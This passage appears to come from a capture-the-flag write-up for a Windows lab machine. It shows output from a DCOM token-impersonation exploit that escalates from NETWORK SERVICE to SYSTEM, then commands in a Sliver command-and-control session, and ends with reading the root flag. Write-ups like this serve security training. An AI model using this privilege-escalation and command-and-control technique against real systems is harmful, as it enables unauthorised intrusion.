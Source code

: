 ```powershell
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 908 Token:0x844  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 6848
```

A new session is born
```sh
sliver (REMOTE_JACKAL) > use aff2989a-17bd-4cce-a0ea-6c3c1188e23e

[*] Active session REMOTE_JACKAL (aff2989a-17bd-4cce-a0ea-6c3c1188e23e)

sliver (REMOTE_JACKAL) > getuid

S-1-5-18

sliver (REMOTE_JACKAL) > whoami

Logon ID: NT AUTHORITY\SYSTEM
[*] Current Token ID: NT AUTHORITY\SYSTEM

```

Root flag
```sh
sliver (REMOTE_JACKAL) > cat /users/administrator/desktop/root.txt

4f5858163e52fd36d6cb7c6074c50a40
```


![[Pasted_image_20251026172423.png]]